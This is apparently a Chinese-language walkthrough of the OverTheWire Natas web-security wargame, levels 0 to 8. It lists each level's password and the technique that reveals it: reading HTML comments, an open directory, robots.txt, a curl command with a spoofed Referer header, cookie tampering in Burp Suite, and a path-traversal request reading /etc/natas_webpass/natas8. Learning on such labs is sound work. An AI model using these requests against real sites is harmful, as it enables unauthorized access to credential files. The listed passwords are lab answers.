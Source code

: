 # natas

每一关的地址是http://natasX.natas.labs.overthewire.org，其中X代表当前关数，默认用户名是nataX（eg.natas0 是level0的用户名），通过当前的一关获取进入下一关的密码。所有密码存储在/etc/natas_webpass/中（eg.level5的密码存储在/etc/natas_webpass/natas5，只能在第四关和第五关能够读取密码）

原文链接：https://blog.csdn.net/tempulcc/article/details/108758417

## level0

```
Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org
```

* 谷歌浏览器打开开发者选项
* 获得密码：0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq
* <!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->



## Natas Level 0 → Level 1

```
Username: natas1
URL:      http://natas1.natas.labs.overthewire.org
```

* <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
* TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI

## Natas Level 1 → Level 2

```
Username: natas2
URL:      http://natas2.natas.labs.overthewire.org
```

*  发现 http://natas2.natas.labs.overthewire.org/files/pixel.png

* 访问files目录

* 发现 users.txt

* 获得：

* ```
  # username:password
  alice:BYNdCesZqW
  bob:jw2ueICLvT
  charlie:G5vCxkVV3m
  natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
  eve:zo4mJWyNj2
  mallory:9urtcpzBmH
  ```

## Natas Level 2 → Level 3

```
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org
```

* 开发模式查看提示：<!-- No more information leaks!! Not even Google will find it this time... -->

* 谷歌通过爬robots.txt决定是否爬取文件

* 访问   http://natas3.natas.labs.overthewire.org/robots.txt

* 获得：

* ```
  User-agent: *
  Disallow: /s3cr3t/
  ```

* 访问  http://natas3.natas.labs.overthewire.org/s3cr3t/

* 找到user.txt
* 获得密码：natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Natas Level 3 → Level 4

```
Username: natas4
URL:      http://natas4.natas.labs.overthewire.org
```

* curl -isu natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ natas4.natas.labs.overthewire.org --referer "http://natas5.natas.labs.overthewire.org/"
* The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
* 或者
* 用brup suite抓包后
* proxy 抓包修改referer为 http://natas5.natas.labs.overthewire.org/
  * 保证intercept 为 intercept  is on
  * 修改referer后点击forward
  * 返回原来页面即可查看natas5答案

## Natas Level 4 → Level 5

```
Username: natas5
URL:      http://natas5.natas.labs.overthewire.org
```

* 登录后用bp拦截
* 修改loggedin=0为1
* Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Natas Level 5 → Level 6

```
Username: natas6
URL:      http://natas6.natas.labs.overthewire.org
```

* 输入账号密码后出现提示

* ``````
  include "includes/secret.inc";
  
    if(array_key_exists("submit", $_POST)) {
      if($secret == $_POST['secret']) {
      print "Access granted. The password for natas7 is <censored>";
    } else {
      print "Wrong secret";
    }
    }
  ?>
  ``````

* 尝试访问http://natas6.natas.labs.overthewire.org/includes/secret.inc

  * 

  * ```
    <?
    $secret = "FOEIUWGHFEEUHOFUOIU";
    ?>
    ```

* 输入FOEIUWGHFEEUHOFUOIU

* Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Natas Level 6 → Level 7

```
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org
```

* 输入账号密码后查看源代码
  * <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
* http://natas7.natas.labs.overthewire.org/etc/natas_webpass/natas8
* 点击about超链接后http://natas7.natas.labs.overthewire.org/index.php?page=about
* 尝试http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* 获得密码xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

## Natas Level 7 → Level 8

```
Username: natas8
URL:      http://natas8.natas.labs.overthewire.org
```

* 输入密码后获得提示

  * ``````
    <?
    
    $encodedSecret = "3d3d516343746d4d6d6c315669563362";
    
    function encodeSecret($secret) {
        return bin2hex(strrev(base64_encode($secret)));
    }
    
    if(array_key_exists("submit", $_POST)) {
        if(encodeSecret($_POST['secret']) == $encodedSecret) {
        print "Access granted. The password for natas9 is <censored>";
        } else {
        print "Wrong secret";
        }
    }
    ?>
    ``````

  * 